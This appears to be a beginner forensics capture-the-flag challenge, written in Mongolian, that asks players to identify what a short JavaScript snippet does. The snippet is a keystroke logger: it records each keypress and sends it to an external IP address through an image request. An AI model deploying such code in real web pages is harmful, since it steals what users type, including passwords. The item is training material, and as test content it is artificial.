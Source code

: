 ## Baby Forensic (10pts)
**Challenge**

Доор кодыг шинжилгээ хийн ямар үйлдэл хийж байгааг тодорхойл.

Флаг формат: HZU18{Таны хариулт}
```javascript
<script LANGUAGE="JavaScript">
document.captureEvents(Event.KEYPRESS);
document.onkeypress = captureKeystrokes;
function captureKeystrokes(e) {
var key = string.fromcharcode(e.which);
var img = new imageO;
var src = "http://192.155.221.7/index.htm" +
"keystroke=" + escape(key);
img.src = src;
return true;}
<script>| 

```
